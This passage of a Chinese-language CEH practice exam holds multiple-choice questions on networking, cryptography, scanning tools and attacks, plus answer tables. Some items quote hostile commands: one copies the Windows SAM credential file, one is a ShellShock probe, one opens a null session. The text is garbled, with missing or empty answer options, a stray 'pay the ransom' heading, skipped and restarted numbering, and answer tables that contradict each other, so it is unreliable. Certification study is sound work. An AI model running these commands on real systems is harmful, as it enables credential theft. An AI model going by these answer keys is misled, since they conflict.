12. **在获取用于保护 Web 应用程序访问的密码哈希值后，了解哪些加密算法对于访问该应用程序将很有帮助？**
    1. SHA1
    2. Diffie-Hellman
    3. RSA
    4. AES

13. **僵尸网络可以通过以下哪进行管理？**
    1. IRC
    2. 电子邮件
    3. LinkedIn 和 Facebook
    4. 存在漏洞的 FTP 服务器

14. **`Nmap` 扫描中的 `-oX` 标志的作用是什么？**
    1. 执行快速扫描
    2. 将结果以截断格式输出到屏幕上
    3. 执行 Xmas 扫描
    4. 将结果以 XML 格式输出到文件

15. **攻击者使用操作系统内部既非设计也非用于传输信息的通道。这种通信信道的名称是什么？**
    1. 分类的
    2. 明显的
    3. 加密的
    4. 隐蔽

16. **在 Windows 服务器命令行提示符，可以使用哪个命令列出运行的服务？**
    1. `sc query type= running`
    2. `sc query \\servername`
    3. `sc query`
    4. `sc config`

17. **智能卡使用什么协议以安全方式传输证书？**
    1. 扩展身份验证协议 (`EAP`)
    2. 点点协议 (`PPP`)
    3. 点点隧道协议 (`PPTP`)
    4. 二层隧道协议 (`L2TP`)

18. **SOAP 服务使用哪种技术格式化信息？**
    1. SATA
    2. PCI
    3. XML
    4. ISDN

19. **关于静态 NAT，以下描述哪个是正确的？**
    1. 静态 NAT 使用多对多的映射。
    2. 静态 NAT 使用一对多的映射。
    3. 静态 NAT 使用多对一映射。
    4. 静态 NAT 使用一对一映射。

20. **PKI（公钥基础设施）的以下哪个过程确保存在信任关系，并且证书对于特定操作仍然有效？**
    1. 证书颁发
    2. 证书验证
    3. 证书加密
    4. 证书撤销

21. **哪种方法可以提供更好的 IT 投资回报率，并对组织安全、程序和实施提供彻底的评估？**
    1. 渗透测试
    2. 社会工程学
    3. 漏洞扫描
    4. 访问控制

22. **在 OSI 模型中，PPTP 加密发生在哪层？**
    1. 传输层
    2. 应用层
    3. 数据链路层
    4. 网络层

23. **下列哪一个 Web 安全项目 实现包含已知漏洞的应用程序？**
    1. WebBugs
    2. WebGoat
    3. VULN
    4. WebScarab

24. **一种常用的加密工具是 XOR。对以下数值进行 XOR：**
    1. `10110001`
    2. `00111010`
    3. `10001011`
    4. `11011000`
    5. `10011101`
    6. `10111100`

25. **黑客成功感染了一个服务器，并将用于发送垃圾邮件、参与协调攻击或托管垃圾内容。哪种木马感染此类？**
    1. 僵尸网络木马
    2. 乌龟木马
    3. 银行木马
    4. 勒索软件木马

26. **这种异步加密基于两个大素数的乘积。描述的是哪种加密？**
    1. RSA
    2. SHA
    3. RC5
    4. MD5

27. **哪项规定定义了联邦信息系统和组织的安全隐私控制措施？**
    1. NIST-800-53
    2. PCI-DSS
    3. EU Safe Harbor
    4. HIPAA

28. **以下哪些工具可以用于被动操作系统指纹识别？**
    1. tcpdump
    2. nmap
    3. ping
    4. tracert

29. **利用“Bash Bug”或“ShellShock”漏洞的最常见方法是什么？**
    1. 通过利用通用网关接口 (`CGI`) 的 Web 服务器向漏洞 Web 服务器发送格式错误的环境
    2. 在文本字段中操作格式化字符串
    3. SSH
    4. SYN 攻击

30. **在风险管理中，“可能性”一词与“威胁”概念的关系是？**
    1. 可能性是威胁源利用漏洞的可能性。
    2. 可能性是一个可能利用漏洞的威胁源。
    3. 可能性是可能利用漏洞的威胁来源。
    4. 可能性是漏洞成为威胁源的可能性。

31. **AES 和 RSA 算法之间的区别是什么？**
    1. 两者都是非对称算法，但 `RSA` 使用 1024 位密钥。
    2. `RSA` 是非对称的，用于创建公/私钥对；`AES` 是对称的，用于加密数据。
    3. 两者都是对称算法，但 `AES` 使用 256 位密钥。
    4. `AES` 是非对称的，用于创建公/私钥对；`RSA` 是对称的，用于加密数据。

32. **在 Linux 平台上，使用哪个工具可以检测使用 802.11a/b/g/n WLAN 标准的无线局域网？**
    1. Kismet
    2. Nessus
    3. Netstumbler
    4. Abel

33. **哪种密码破解方法消耗的时间和精力最多？**
    1. 暴力破解
    2. 彩虹表
    3. 字典攻击
    4. 窥视攻击（肩部观察）

34. **关于道德黑客，以下哪个陈是不正确的？**
    1. 道德黑客绝不应该使用任何可能利用组织系统漏洞的工具或方法。
    2. 测试应该在场外通过远程执行。
    3. 组织应该使用不销售供应商硬件/软件或其他咨询服务的道德黑客。
    4. 道德黑客不应涉及写入或修改目标系统。

35. **存储备份磁带，以下哪种选项是最安全的程序？**
    1. 在场外的受气候控制的设施中
    2. 在同一栋建筑的不同楼层
    3. 在数据中心内的防火箱中，以便更快速地检索
    4. 在凉爽干燥的环境中

36. **为了进行匿名上网浏览，以下哪项是是最佳选择？**
    1. 在输入个人信息时使用 SSL 站点
    2. 使用多节点的 Tor 网络
    3. 使用共享 Wi-Fi
    4. 使用公共 VPN

37. **作为道德黑客，你正在使用 Wireshark 捕获客户网络的流量，并需要找到并验证 SMTP 流量。Wireshark 中的哪个命令可以帮助你找到这种流量？**
    1. `request smtp 25`
    2. `tcp.port eq 25`
    3. `smtp port`
    4. `tcp.contains port 25`

38. **在进行确定网络漏洞的技术评估时，你使用了 TCP XMAS 扫描。所有开放端口的响应将是怎样的？**
    1. 端口将发送 `ACK`。
    2. 端口将发送 `SYN`。
    3. 端口将忽略数据包。
    4. 端口将发送 `RST`。

39. **这是一个广泛使用的消息日志标准。它允许生成消息的软件、存储消息的系统以及报告和分析消息的软件分离。该协议专门为传输事件消息而设计。描述的是哪一个？**
    1. SNMP
    2. ICMP
    3. `SYSLOG`
    4. SMS

40. **当你需要分析从渗透测试初始阶段（信息收集）收集的文件提取的元数据时，你应该使用什么工具？**
    1. Armitage
    2. Dimitry
    3. Metagoofil
    4. `cdpsnarf`

41. **以下哪些不是蓝牙攻击类型？**
    1. Bluejacking
    2. Bluesmaking
    3. Bluesnarfing
    4. Bluedriving

42. **你已成功登录 Linux 系统。现在你想掩盖自己的足迹。你的登录尝试可能会记录在位于 `/var/log` 的几个文件中。哪个文件不属于列表？**
    1. `user.log`
    2. `auth.fesg`
    3. `wtmp`
    4. `btmp`

43. **Gavin 拥有一家白帽公司，正在为他的客户进行网站安全审计。他首先运行一个寻找常见配置错误和过期软件版本的扫描。他可能在使用哪个工具？**
    1. Nikto
    2. Nmap
    3. Metasploit
    4. Armitage

44. **你正在破解来自 Windows 2000 SAM 文件的 LM Hash。你将使用 LM 暴力破解工具进行解密。你要解密的是什么加密算法？**
    1. MD4
    2. DES
    3. SHA
    4. SSL

45. **DNS AAAA 记录的目的是？**
    1. 授权、认证和审计记录
    2. 地址前缀记录
    3. 地址数据库记录
    4. IPv6 地址解析

46. **挑战/响应认证是为了防止哪种黑客攻击？**
    1. 重放攻击
    2. 扫描攻击
    3. 会话劫持攻击
    4. 密码破解攻击

47. **根据受攻击机器日志的提取内容，黑客真的在尝试窃什么？**


```
c:\> cmd /c type c:\winnt\repair\sam > c:\har.txt
Volume in drive C has no label.
Volume Serial Number is 8403-6A0E
Directory of C:\
11/26/00 12:34p 0 AUTOEXEC.BAT
11/26/00 06:57p 322 boot.ini
11/26/00 12:34p 0 CONFIG.SYS
12/26/00 07:36p < DIR > exploits
02/04/01 07:07a 5,327 har.txt
12/07/00 03:30p < DIR > InetPub
12/07/00 03:12p < DIR > Multimedia Files
12/26/00 07:10p < DIR > New Folder
01/26/01
```

# 4. 支付赎金

### 54. 下列哪项涉及网络入侵检测和实时流量分析？
1. `Snort`
2. `John the Ripper`
3. `Nessus`
4. `Ophcrack`

### 55. 在 SSL/TLS 中同时使用对称和非对称加密的优点之一是什么？
1. 支持两种类型的算法允许手机等性能较弱的设备改为使用对称加密。
2. 诸如 `AES` 的对称算法在非对称方法失效时提供故障安全保护。
3. 对称加密允许服务器带外安全地传输会话密钥。
4. 相比之下，非对称加密的计算开销很大。然而，它非常适合安全地协商用于对称加密的密钥。

### 56. 在密码分析领域，“软管”攻击是指什么？
1. 通过对原始明文内容做出逻辑假设来尝试解密密文。
2. 通过胁迫或拷问提取密码密钥。
3. 强制目标密钥流通过硬件加速设备（如 `ASIC`）。
4. 创建者在加密算法中植入的后门。

### 57. Rootkit 如何绕过 Windows 7 操作系统的内核模式代码签名策略？
1. 击败扫描器对内核中任何代码更改的检测
2. 用自己的版本替换补丁系统调用，以隐藏 rootkit（攻击者）的行为
3. 为应用程序进程执行常用服务，并将真实应用程序替换为伪造程序
4. 将自己挂载到硬盘的主引导记录（MBR）中，并更改机器的启动序列/选项

### 58. 下列开源工具中哪一个是扫描网络潜在目标的最优选择？
1. `Nmap`
2. `Nikto`
3. `Cain`
4. `John the Ripper`

### 59. 下列哪项需要宿主应用程序进行复制的程序？
1. `Micro`
2. `Worm`（蠕虫）
3. `Trojan`（木马）
4. `Virus`（病毒）

### 60. 有人接近网络管理员并寻求如何从家里发送加密电子邮件的建议。终端用户不想支付任何许可费用，也不管理服务器服务。下列哪种是网络管理员应该推荐的最安全的加密协议？
1. `IP Security (IPSEC)`
2. `Multipurpose Internet Mail Extensions (MIME)`
3. `Pretty Good Privacy (PGP)`
4. `Hyper Text Transfer Protocol with Secure Socket Layer (HTTPS)`

### 61. 哪组访问控制解决方案实现了双因子身份验证？
1. USB 令牌和 PIN 码
2. 指纹扫描器和视网膜扫描器
3. 密码和 PIN 码
4. 账户和密码

### 62. 什么类型的 OS 指纹技术向远程 OS 发送特殊数据包并分析收到的响应？
1. 被动式
2. 反射式
3. 主动式
4. 分布式

### 63. 这一通过提供一组评估要求来建立 IT 产品安全功能基准置信度的国际标准名称是什么？
1. 蓝书
2. `ISO 26029`
3. `Common Criteria`（通用标准）
4. 瓦森纳协定

### 64. `ICMP ping` 和 ping 扫描用于检查活动系统以及：
1. 如果 `ICMP ping` 能够穿过防火墙
2. `ICMP ping` 经过的路由
3. 交换端口相对于 `ICMP ping` 的位置
4. `ICMP ping` 到达目的地时经过的跳数

### 65. 公司员工不再能够在其计算机上访问互联网网站。网络管理员能够成功 `ping` 互联网 Web 服务器的 IP 地址，还能使用 IP 地址代替 URL 打开网站。管理员对 `www.eccouncil.org` 运行 `nslookup` 命令，并收到一条显示服务器无响应的错误消息。管理员接下来应该做什么？
1. 允许防火墙通过 `TCP` 53 端口流量
2. 允许防火墙通过 `UDP` 443 端口流量
3. 允许防火墙通过 `UDP` 53 端口流量
4. 允许防火墙通过 `TCP` 80 端口流量

### 66. 下列哪种网络攻击利用了 TCP/IP 协议栈的分段重组功能？
1. `Teardrop`
2. `SYN flood`
3. `Smurf attack`
4. `Ping of death`

### 67. 下列哪种陈述最好描述了 N 层架构下的服务器类型？
1. 特定层的单一服务器
2. 特定角色的服务器
3. 具有特定角色的服务器组
4. 特定层的服务器

### 68. 开源安全测试方法论承认哪种合规性类型？
1. 法律
2. 监管
3. 合同
4. 立法

### 69. 地址解析协议是如何工作的？
1. 向所有元素发送针对特定 IP 的 MAC 地址请求。
2. 向所有元素发送 MAC 地址的响应。
3. 向特定 IP 请求 MAC 地址。
4. 向所有元素发送针对特定 IP 的响应。

### 70.
```bash
env x='(){};' bash -c 'cat / passwd'
```


该 Shell bash 漏洞在 Linux 上尝试执行什么操作？

1. 显示 `passwd` 内容
2. 删除 `passwd` 文件
3. 修改 `passwd` 中的所有密码
4. 向 `passwd` 添加新用户

### 71. 一家中型医疗 IT 企业决定实施风险管理策略。下列哪项不是五种风险响应之一？

1. 委托
2. 规避
3. 缓解
4. 接受

### 72. 使用哪种 IPSec 模式可以确保局域网内数据的安全性和机性？

1. `ESP transport mode`
2. `AH promiscuous`
3. `ESP confidential`
4. `AH tunnel mode`

### 73. 这种配置允许有线或无线网络接口控制器将其收到的所有流量传递给中央处理器（CPU），而不是仅接收目标帧。描述的是什么？

1. 混杂模式
2. 端口转发
3. 多组播模式
4. `WEM`

### 74. 哪种方法可以决定数据包如何从不受信任的外部主机移动到受防火墙保护的内部主机？这还允许黑客确定哪些端口是开启的以及数据包是否可以通过？

1. Firewalking
2. 会话劫持
3. 网络嗅探
4. 中间攻击

### 75. 入侵检测系统（IDS）已通知网络管理员，向外部 DMZ 中的 Web 服务器发送了一系列可能的恶意数据包。数据流量已被 IDS 捕获并保存为 PCAP 文件。可以使用哪种网络工具来判断这些数据包是真正的恶意的仅仅是误报？

1. 协议分析器
2. 入侵预防系统（IPS）
3. 网络嗅探器
4. 漏洞扫描器

### 76. 下列哪种 Windows 命令黑客可以用来列出当前用户上下文访问权限的所有共享？

1. `NET FILE`
2. `NET USE`
3. 网络配置
4. 网络视图

### 77. 即使采取了所有理论上可能的安全措施，仍然会存在什么样的风险？

1. 剩余风险
2. 固有风险
3. 影响风险
4. 延迟风险

### 78. 以下命令用于什么目的？`net use \\targetipc$ "" /u:""`

1. 获取 `etc/passwd` 文件
2. 获取 `SAM`
3. 通过 Samba 连接到 Linux 计算机
4. 此命令用于建立空会话连接

### 79. 杀毒软件使用了哪种检测技术？该技术通过从多个受保护系统收集数据，而不是在本地分析文件，而是在提供者的环境中进行分析。

1. 基于云的
2. 基于蜜罐的
3. 基于行为
4. 基于启发式

### 80. 空会话是到 NT 或 2000 系统的未验证连接（不使用用户名或密码）。为了检查网络上的空会话，你必须过滤哪些 TCP 和 UDP 端口？

1. 137 和 139
2. 137 和 443
3. 139 和 443
4. 139 和 445

### 81. 哪种地址翻译方案允许单个公共 IP 地址始终对应内部网络上的单台机器，从而允许“服务器发布”？

1. 端口复用地址翻译
2. 动态端口地址翻译
3. 动态网络地址翻译
4. 静态网络地址翻译

### 82. 以下 Google 高级搜索运算符允许攻击者将结果限制在给定域网站？

1. `[cache:]`
2. `[site:]`
3. `[inurl:]`
4. `[link:]`

### 83. 应用防火墙的一个优势是能够：

1. 在网络层过滤数据包
2. 过滤特定命令，例如 `http:post`
3. 为每个数据包保留状态信息
4. 监控 TCP 握手

### 84. 以下工具是实现 PCI 要求 11 的最佳选择？

1. Truecrypt
2. Sub7
3. Nessus
4. Clamwin

### 85. 为了防止特定的端口和应用程序让数据包进入组织，防火墙检查什么？

1. 网络层头部和会话层端口号
2. 表示层头部和会话层端口号
3. 应用层端口号和传输层头部
4. 传输层端口号和应用层头部

### 86. 以下防止跨站脚本攻击 漏洞的最佳方法是？

1. 在发送数据之前使用数字证书验证服务器。
2. 在允许访问受保护的信息和 UI 控件之前验证访问权限。
3. 在允许访问受保护的信息和 UI 控件之前验证访问权限。
4. 验证并转义所有发送到服务器的信息。

### 87. 通过 TCP 端口 (80) 进行黑盒测试时，你发现当你尝试从支持 Web 的主机通过 IRC 流量时流量被拦截了。然而，你注意到出站 HTTP 流量是被允许的。出站流量使用的是哪种防火墙？

1. 状态检测
2. 应用
3. 环路
4. 数据包过滤

### 88. 什么是 GINA？

1. 网关接口网络应用程序
2. GUI 安装网络应用程序类
3. 全球互联网国家机构
4. 图形识别与认证 DLL

### 89. 以下哪个说法是正确的？

1. 嗅探器在 OSI 模型的第 2 层工作
2. 嗅探器在 OSI 模型的第 3 层工作
3. 嗅探器在 OSI 模型的第 2 层和第 3 层工作
4. 嗅探器在 OSI 模型的第 1 层工作

### 90. TCP 连接的建立涉及称为“三次握手”的协商。客户端为了开始此协商向服务器发送什么类型的消息？

1. ACK
2. SYN
3. RST
4. SYN-ACK

### 91. 代码注入是一种攻击形式，其中恶意用户：

1. 在数据字段中插入文本，该文本被解释为代码
2. 使用缓冲区溢出让服务器执行任意代码
3. 在浏览器中运行的 JavaScript 中插入额外代码
4. 获取服务器代码库的访问权限并插入新代码

### 92. 你成功访问了 Linux 服务器，并希望确保该服务器随后的出站流量不会被基于网络入侵检测系统 捕获。规避 NIDS 的最佳方法是？

1. 带外信号传输
2. 协议隔离

### 93. `*` 表示什么？

1. s
2. t
3. n
4. a

### 94. 以下哪种类型的越狱允许用户级访问，但不允许启动级访问？

1. Bootrom 漏洞
2. iBoot 漏洞
3. 沙盒漏洞
4. 用户态漏洞

### 95. 以下哪个程序同时感染系统扇区和可执行文件？

1. 隐形病毒
2. 多态病毒
3. 宏病毒
4. 多部分病毒

### 96. 以下哪种扫描方法将 TCP 头部拆分成多个数据包，使数据包过滤器难以检测目的？

1. ICMP Echo 扫描
2. SYN/FIN 扫描
3. ACK 标志扫描
4. IPID 扫描

### 97. “白盒测试”方法强制了什么样的限制？

1. 测试者仅了解外部操作。
2. 测试者完全了解内部操作。
3. 测试者仅可以访问内部操作。
4. 测试者仅可以访问外部操作。

### 98. 在进行风险评估时，你需要确定某些关键流程中断服务时的潜在影响。通过什么种过程可以确定这些影响？

1. 风险缓解
2. 应急响应计划
3. 灾难恢复计划
4. 业务影响分析

### 99. 以下哪个选项代表了异常 IDS 相比基于签名 IDS 的概念特征？

1. 产生更少的误报
2. 能够识别未知攻击
3. 新威胁需要厂商更新
4. 无法处理加密网络流量

### 100. 一名未经授权的人在午餐高峰期跟随员工从入口进入建筑。该人员刚刚执行了哪种入侵？

1. 反向社会工程
2. 尾随
3. 尾便
4. 公告

### 101. 如果你不在意被检测并想执行快速扫描，你会使用哪个 Nmap 选项？

1. `-T0`
2. `-T5`
3. `-O`
4. `-A`

### 102. 为什么要禁用/删除不必要的 ISAPI 过滤器？

1. 防止社会工程攻击
2. 防止 Web 服务器攻击
3. 防止越狱
4. 防止无线攻击

### 103. 当攻击者部分了解应用程序内部原理时，进行的是哪种类型的分析？

1. 黑盒
2. 公告
3. 白盒
4. 灰盒

### 104. 在一次内部安全审计中，白帽黑客获得了用户账户的控制权，并尝试获取另一个账户的机密文件和信息。他是如何实现这一点的？

1. 权限提升
2. 权限提升 窥视偷窥
3. 破解活动目录
4. 端口扫描

### 105. 试图将自己安装到所感染文件内部的病毒被称为？

1. 隧道病毒
2. 空隙病毒
3. 多态病毒
4. 隐形病毒

### 106. 以下是从网络上 IP 地址为 `192.168.0.110` 的机器提取的日志部分：

记录了什么类型的活动？

1. 针对 `192.168.0.110` 的泪滴攻击
2. 针对 `192.168.0.105` 的拒绝服务攻击
3. 针对 `192.168.0.110` 的端口扫描
4. 针对 `192.168.0.105` 的端口扫描

### 107. 数字签名必须满足哪两个条件？

1. 必须清晰且整洁
2. 必须不可伪造且真实
3. 必须是唯一的且具有特殊字符
4. 字符数量必须与物理签名相同且唯一

### 108. 在以下哪种密码保护技术中，在计算哈希之前会在密码中添加随机字符字符串？

1. 密钥加哈希
2. 密钥扩展
3. 加盐
4. 双重哈希

### 109. 国家级威胁者经常发现漏洞并保留它们，直到他们想要发起复杂的攻击。Stuxnet 攻击是一种前所未有的攻击类型，因为它使用了四种漏洞。

这种攻击风格被称为什么？

1. 零日漏洞
2. 零小时漏洞
3. 零和
4. 无日

### 110. 为了减少系统的攻击面，管理员应该执行以下哪些过程以删除不必要的软件、和服务不安全的配置设置？

1. 采集
2. 窗口化
3. 加固
4. 隐形化

### 111. 数据备份是安全必须。然而，如果处理不当，它也有某种程度的风险。以下备份带来的最大威胁是什么？

1. 备份是恶意软件或非法信息的来源。
2. 由于没有进行验证，备份是不完整的。
3. 备份在灾难恢复期间不可用。
4. 未加密的备份可能会丢失或被盗。

### 112. 哪种网络安全概念要求在整个 IT 基础设施中放置多层安全控制，以提高组织的安全态势，抵御恶意攻击或潜在漏洞？

1. 隐蔽性安全
2. 基于主机的入侵检测系统
3. 深度防御
4. 基于网络的入侵检测系统

### 113. 哪种安全特征可以防止车辆撞破建筑大门？

1. 闸机
2. 隔离柱
3. 密闭室
4. 接待员

### 114. 管理员可以采取以下哪些操作来验证磁带备份可以完整恢复？

1. 恢复一个随机文件。
2. 执行全恢复。
3. 读取磁带的前 512 字节。
4. 读取磁带的末尾 512 字节。

### 115. 如果发现高管因未妥善保护其公司资产和信息系统而承担责任，在这种情况下适用哪种法律？

1. 习惯法
2. 民法
3. 国际法
4. 刑法

### 116. 以下哪项是预防性控制？

1. 智能卡认证
2. 安全策略
3. 审计跟踪
4. 业务连续性计划

### 117. 使用漏洞扫描器可以解决以下哪些业务挑战？

1. 审计员想要发现所有系统是否遵循标准的命名规范。
2. 一个 Web 服务器被攻破，管理层需要知道是否有其他系统被攻破。
3. 紧急需要为某位离职员工移除多台机器的管理员权限。
4. 每月需要测试公司对主机应用使用和安全策略的合规性。

### 118. 信息系统的安全和隐私是两个涉及法律法规的实体。以下哪项规章定义了联邦信息系统和组织的安全与隐私控制？

1. NIST SP 800-53
2. PCI-DSS
3. 欧盟安全港
4. HIPAA

### 119. 以下哪项准则或标准与信用卡行业相关？

1. 信息和相关技术控制目标
2. 萨班斯-奥克斯莱法案
3. 健康保险流通性与责任法案
4. 支付卡行业数据标准

### 120. 以下哪项针对语音和视频等机密通信进行了优化？

1. 2
3. 4

### 121. 哪种访问控制机制允许多个系统使用中央服务器进行一次认证并访问多个系统？

1. 基于角色的访问控制
2. 任意裁量性访问控制
3. Windows
4. 单点登录

### 122. 被动侦察通过以下哪种收集信息？

1. 社会工程学
2. 网络嗅探
3. 中人攻击
4. 公开可用

### 123. 以下哪项是 NMAP 脚本可以帮助检测 GET, POST, HEAD, DELETE, TRACE 等 HTTP 方法？

1. git
2. headers
4.

### 124. 以下哪些设置允许 Nessus 检测到其发送的数据包过多导致网络接近容量？

1. `netstat`
2. 依赖
3. 未扫描端口
4. 减少并行连接

### 125. N 体系架构中的哪一层负责在层级之间移动和处理数据？

1. 数据层
2. 表示层
3. 逻辑层
4. 应用层

## 答案

|  | 答案 |  | 答案 |  | 答案 |  | 答案 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 104 | A | 109 | D | 114 | A | 118 | B |
| 105 | B | 110 | C | 115 | B | 119 | D |
| 106 | C | 111 | D | 116 | A | 120 | A |
| 107 | B | 112 | C | 117 | D | 121 | B |
| 108 | C | 113 | B | | | 122 | D |
| | | | | | | 123 | B |
| | | | | | | 124 | D |
| | | | | | | 125 | C |

|  | 答案 |  | 答案 |  | 答案 |  | 答案 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 15 | D | 47 | B | 79 | A | 111 | D |
| 16 | C | 48 | B | 80 | D | 112 | C |
| 17 | A | 49 | C | 81 | D | 113 | B |
| 18 | C | 50 | A | 82 | B | 114 | B |
| 19 | D | 51 | A | 83 | B | 115 | B |
| 20 | B | 52 | D | 84 | C | 116 | A |
| 21 | A | 53 | B | 85 | D | 117 | D |
| 22 | C | 54 | A | 86 | D | 118 | A |
| 23 | B | 55 | A | 87 | B | 119 | D |
| 24 | A | 56 | B | 88 | D | 120 | A |
| 25 | A | 57 | D | 89 | A | 121 | D |
| 26 | A | 58 | A | 90 | B | 122 | D |
| 27 | A | 59 | D | 91 | A | 123 | D |
| 28 | A | 60 | C | 92 | C | 124 | D |
| 29 | A | 61 | A | 93 | C | 125 | C |
| 30 | A | 62 | C | 94 | D | | |
| 31 | B | 63 | C | 95 | D | | |
| 32 | A | 64 | A | 96 | B | | |

# 第 22 章

## 自我评估 2

## 目标

本章旨在你了解自己对 CEH 认证以及通用应用安全的准备水平。该评估基于认证考试中实际提出的问题，可以作为极佳的复习来源。

### 指南

* 评估包含 125 道单选题。
* 评估需在 4 小时内完成。
* 每题 1 分，没有倒分机制。
* 及格分数为 85% 或正确答对 106 道题。
* 答案页及解析在评估末尾提供。

### 评估

### 1. 根据下面的日志，以下哪个句子是正确的？

```
Mar 1, 2016, 7:33:28 AM 10.240.250.23 – 54373 10.249.253.15 – 22 tcp_ip
```

1. SSH 通信是加密的，无法知道谁是客户端或谁是服务器。
2. 应用是 FTP，`10.240.250.23` 是客户端，`10.249.253.15` 是服务器。
3. 应用是 SSH，`10.240.250.23` 是客户端，`10.249.253.15` 是服务器。
4. 应用是 SSH，`10.240.250.23` 是服务器，`10.249.253.15` 是服务器。

### 2. Darius 正在分析 IDS 日志。在调查过程中，他注意到没有发现任何异常，但正常的 Web 流量触发了警报。他可以将此警报标记为：

1. 漏报
2. 误报
3. 报报
4. 误签名

### 3. 加密哈希提供的主要安全服务是什么？

1. 完整性和易于计算
2. 消息认证和抗碰撞性
3. 完整性
4. 抗碰撞性

### 4. 不安全的对象引用是一种漏洞类型，应用程序未验证用户是否获得授权。

假设一个恶意用户尝试访问 Ned。

以下哪项说明了不安全的对象引用？

1. `GET /restricted?id=1 HTTP/1.1`
2. `GET /restricted?name=Ned HTTP/1.1`
3. `GET /restricted/account=1 HTTP/1.1`
4. `GET /restricted?user=1 HTTP/1.1`

### 5. 识别一种攻击者向网页中注入恶意脚本的 Web 攻击。

1. SQL 注入
2. 跨站点脚本
3. LDAP 注入
4. 跨站请求伪造

### 6. 你的高级同事 Bob 给你发了一封邮件。你对其进行了解密处理。这种技术的名称是什么？

1. 身份认证
2. 机密性
3. 完整性
4. 不否赖性（不可否认性）

### 7. 你需要部署一个新软件包。它需要三台服务器并且必须保持可用。推荐的架构是什么？

1. 三台服务器都需要内网连接
2. 一个面向互联网的 Web 服务器，一个内网的应用程序服务器，一个内网的数据库服务器
3. 一个面向互联网的 Web 服务器和数据库服务器，一个内网的应用程序服务器
4. Web 服务器、应用程序服务器和数据库服务器全部面向互联网

### 8. 分析师在调查日志时发现某个内部用户访问了可疑代码。这种隐藏代码的名称是什么？

1. 加密
2. 代码编码
3. 混淆
4. 隐写术

### 9. 攻击者使用哪种蓝牙技术在未经接收者同意的情况下发送消息，类似于垃圾邮件？

1. 蓝牙攻击
2. 蓝牙嗅探
3. 蓝牙钓鱼
4. 蓝雅

### 10. 你是渗透测试员，被分配扫描服务器。你需要使用一种将 TCP 头拆分成多个包的扫描技术，以便难以检测包的目的。你会使用哪种扫描技术？

1. ACK 标志扫描
2. TCP 扫描
3. IP 分段扫描
4. 反向 TCP 扫描

### 11. 一个名为 Jack 的黑客试图入侵银行的计算机系统。他需要知道该计算机的操作系统以便进一步攻击。什么过程可以帮助他？

1. 旗帜抓取
2. IDLE/IPID 扫描
3. SSDP 扫描
4. UDP 扫描

### 12. 在以下哪种加密攻击方法，攻击者进行一系列交互查询，并根据之前加密的信息选择随后的明文？

1. 选择明文攻击
2. 纯密文攻击
3. 自适应选择明文攻击
4. 已知明文攻击

### 13. 某公司的网络管理员正在为具有电子商务功能的网站进行设置。数据嗅探是一个担忧，因为信用卡信息将在互联网上传输。访问网站的用户需要使用 HTTPS 加密数据。哪种类型的证书用于加密和解密数据？

1. 非对称
2. 机密
3. 对称
4. 非机密

### 14. 当利用技术评估方法评估网络态势时，以下哪种技术对于判断是否需要对终端进行安全培训最有效？

1. 漏洞扫描
2. 社会工程
3. 应用安全测试
4. 网络嗅探

### 15. 在进行渗透测试时，测试人员发现测试者机器与目标机器之间存在防火墙。该防火墙只监控 OSI 模型会话层上数据包的 TCP 握手。测试人员正试图绕过哪种类型的防火墙？

1. 分组过滤防火墙
2. 应用程序级防火墙
3. 电路级网关防火墙
4. 状态多层检测防火墙

### 16. 黑客正尝试使用 `nslookup` 查询域名系统服务。黑客使用 `nslookup` 交互模式进行搜索。黑客应该在命令行 shell 中输入哪个命令来请求相应的记录？

1. 定位 `type=ns`
2. 请求 `type=ns`
3. 设置 `type=ns`
4. 传输 `type=ns`

### 17. 如果最终的安全控制措施未能消除系统中的所有风险，接下来可以做什么？

1. 继续应用控制措施，直到风险为零。
2. 忽略任何剩余的风险。
3. 如果剩余风险足够低，就可以被接受。
4. 移除当前的控制措施，因为它们不是完全有效的。

### 18. 以下哪种防火墙只检查网络流量中的头部信息？

1. 分组过滤器
2. 状态检测
3. 电路级网关
4. 应用程序级网关

### 19. 可以使用哪种工具对 VPN 防火墙进行指纹识别？

1. Angry IP
2. Nikto
3. `Ike-scan`
4. `Ar-scan`

### 20. 软件应用程序中新发现的缺陷被认为是哪种安全漏洞？

1. 输入验证缺陷
2. HTTP 头部注入漏洞
3. 0-day 漏洞
4. 检查时间到使用时间 缺陷

### 21. 哪种类型的扫描通过数字视频摄像头测量人的外部特征？

1. 虹膜扫描
2. 视网膜扫描
3. 面部识别扫描
4. 签名动力学扫描

### 22. 为了允许测试人员利用存在跨站请求伪造 漏洞的 Web 应用程序，满足以下哪些条件？

1. 受害者用户必须使用版本 8 之前的 Internet Explorer 打开恶意链接。
2. 应用程序生成的会 cookie 未设置 `HttpOnly` 标记。
3. 受害者用户必须使用版本 3 之前的 Firefox 打开恶意链接。
4. Web 应用程序不应使用随机令牌。

### 23. Ethereal/Wireshark、`TCPDump` 和 `Snort` 共同什么技术特征？

1. 它们是用 Java 编写的。
2. 它们向安全监控器发送警。
3. 它们使用相同的数据包分析引擎。
4. 它们使用相同的数据包捕获工具。

### 24. `snort` 作为网络入侵检测系统，需要以下哪项基本配置？

1. 将捕获的数据包限制在 `snort` 配置文件中。
2. 捕获网段上的每个数据包。
3. 将捕获的数据包限制在单个网段。
4. 将捕获的数据包限制在 `/var/log/snort` 目录。

### 25. 网络管理员在凌晨 3:00 收到来自入侵检测系统的管理警。该警报的生成是因为大量数据包通过端口 20 和 21 进入网络。在分析过程中，FTP 服务器上没有攻击迹象。管理员应该如何对这种情况进行分类？

1. 真性阴性
2. 假性阴性
3. 真性阳性
4. 假性阳性

### 26. 以下哪种编程语言最容易受到缓冲区溢出攻击？

1. Perl
2. C++
3. Python

### 27. 黑客在 Google 上搜索 `filetype:pcf` 以查找密码。可以使用以下哪种工具？

1. Cupp
2. Nessus
3. Cain and Abel
4. John

### 28. 工程师正在学习编写 C++ 并正在使用 Backtrack 编译最新的 exploits `calc.exe`。工程师应该使用哪个命令完成此操作？

1. `g++ hackersoit.cpp -o calc.exe`
2. `g++ hackersoit.py`
3. `g++ -i hackersoit.pl`
4. `g++ hackersoit.exe`

### 29. 渗透测试期间，测试人员发现分析的应用程序存在跨站脚本 漏洞。必须满足哪些条件？

1. 应用程序未设置 `secure` 标记。
2. 会话 cookie 未设置 `HttpOnly` 标记。
3. 受害者没有端点安全。
4. 浏览器必须启用 ActiveX。

### 30. 捕获进入或离开主机 `192.168.0.125` 的 TCP 流量的正确 PCAP 过滤器是？

1. `tcp.src == 192.168.0.125`
2. `host 192.168.0.125:25`
